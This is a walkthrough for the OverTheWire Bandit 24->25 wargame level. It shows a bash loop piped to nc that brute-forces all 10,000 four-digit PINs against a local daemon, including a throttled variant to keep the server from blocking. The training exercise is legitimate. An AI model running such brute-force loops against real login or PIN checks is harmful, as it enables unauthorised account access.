 # [Bandit24->25](https://overthewire.org/wargames/bandit/bandit25.html)

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric **4-digit pincode**. There is no way to retrieve the pincode except by going through **all** of the **10000 combinations**, called **brute-forcing**.<br/>
**You do not need to create new connections each time**

## Commands useful to solve the level

- [nc](https://www.commandlinux.com/man-page/man1/nc.1.html)
- [printf](https://www.gnu.org/software/coreutils/manual/html_node/printf-invocation.html#printf-invocation)

## Helpful Reading Material

- [Brute force attack](https://en.wikipedia.org/wiki/Brute-force_attack)
- [Brace Expansion](https://www.gnu.org/software/bash/manual/bash.html#Brace-Expansion)
- [Looping Constructs](https://www.gnu.org/software/bash/manual/bash.html#Looping-Constructs)

## Where to start?

We already know that there is a daemon listening on port 30002 which listens for our password. The goal here is to find an efficient way to brute-force the password for the next level.

<details>
<summary><h3 style="display:inline-block">Part 1 : Getting to know the daemon</h3></summary>

This part will be pretty short as we already have experience with daemons (see [bandit14](/bandit/bandit14.md) for more explanations). We will simply connect and try to communicate 
with the daemon to see how we should speak with it.
<details>
<summary>Hint</summary>

By using the `nc` utility, can you figure out the format of the string you should send the daemon in order to craft your brute-force attack?
</details>

<details>
<summary>Solution</summary>

Using nc, we can speak with the daemon and run the following tests :
```bash
bandit24@bandit:/tmp/abcdef.PtK5$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
bandit24_password 0000
Wrong! Please enter the correct pincode. Try again.
bandit24_pasword 0001
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:/tmp/abcdef.PtK5$ 
```
Using that information, we know the format of the string we're supposed to send to the daemon to try to bruteforce the password. Let's know try and use this 
knowledge to craft our brute-force attack.
</details>
</details>


<details>
<summary><h3 style="display:inline-block">Part 2 : Crafting the attack</h3></summary>

Now that we know how to communicate with the server and that we noticed that indeed, we don't have to open a new connection for each message, let's try to generate all the 
password/pincode combinations for our brute-force attack.

<details>
<summary>Hint</summary>

Using the [Brace Expansion](https://www.gnu.org/software/bash/manual/bash.html#Brace-Expansion), the 
[Looping Constructs](https://www.gnu.org/software/bash/manual/bash.html#Looping-Constructs) and 
the [printf](https://www.gnu.org/software/coreutils/manual/html_node/printf-invocation.html#printf-invocation) 
sections of the gnu bash manual, can you figure out a way to generate all the combinations for our attack?
</details>

<details>
<summary>Solution</summary>

You'll be able to find a lot of solutions following the same pattern all over the internet. Let's try to do something a bit different.

We are going to use a `for` loop, but not the one that depends on a pattern, the one that depends on an arithmetic expression.

Here is what our loop is going to be :
```bash
for (( i=0 ; i < 10000 ; ++i )) ; do printf "%s %04d\n" "bandit24_pass" "$i" ; done
```

Here is a detail of what our loop does :

1.	For all the integers between 0 and 9999 it does the following : 
2. It prints the string bandit24\_pass alongside the value of the integer (padded with zeros to fit a field width of 4 characters)
</details>
</details>


<details>
<summary><h3 style="display:inline-block">Part 3 : Launching the attack and retrieving the password</h3></summary>

Now that we know what our for loop looks like, you might want to know why we used this construct instead of the first form. Let's not 
wonder about that for now and instead launch the attack.

<details>
<summary>Hint</summary>

Using our newly constructed for loop, can you figure out a way to use [nc](https://www.commandlinux.com/man-page/man1/nc.1.html) 
to retrieve the password?
</details>

<details>
<summary>Solution</summary>

Here is how we are going to use our for loop to retrieve the password.
```bash
for (( i=0 ; i < 10000 ; ++i )) ; do printf "%s %04d\n" "bandit24_pass" "$i" ; done | nc -w 10 localhost 30002
```
This loop will test all the 10000 strings against the server pin and will be enough to retrieve the password.

> The `-w` option of nc allows to specify a timeout in case the connection becomes idle. If the timeout is reached, the connection 
> will be closed.

</details>
</details>


<details>
<summary><h3 style="display:inline-block">Part 4 : Let me think please</h3></summary>

If this hasn't been patched yet, you might notice that the server blocks indefinitely after a given number of attempts. The goal 
of this last part is to ensure that the server won't block and that we'll be able to test all the connections.

<details>
<summary>Hint</summary>

Using our command from the last part, would you be able to add a simple check to ensure that the server doesn't test all the attempts 
at the same time but waits a bit before sending each chunk of tests.
</details>

<details>
<summary>Solution</summary>

Here is the updated command :
```bash
for (( i=0 ; i < 10000 ; ++i )) ; do if (( $i%500 == 0 )) ; then sleep 1 ; fi ; printf "%s %04d\n" "bandit24_pass" "$i" ; done | nc -w 10 localhost 30002
```
The `if` check ensure that the server gets time to process the input, ensuring that it won't block after a given amount of requests.
</details>
</details>

<details>
<summary><h3 style="display:inline-block">Full Solution</h3></summary>

1. `for (( i=0 ; i < 10000 ; ++i )) ; do if (( $i%500 == 0 )) ; then sleep 1 ; fi ; printf "%s %04d\n" "bandit24_pass" "$i" ; done | nc -w 10 localhost 30002` this 
command will test the password and all of the 10000 pin combinations agains the server pin and prints the password for the next level once the right pin 
has been entered.

> Don't forget to replace bandit24\_pass with the actual password for the bandit24 user.
</details>

You can now jump to the [next level](/bandit/bandit25.md)
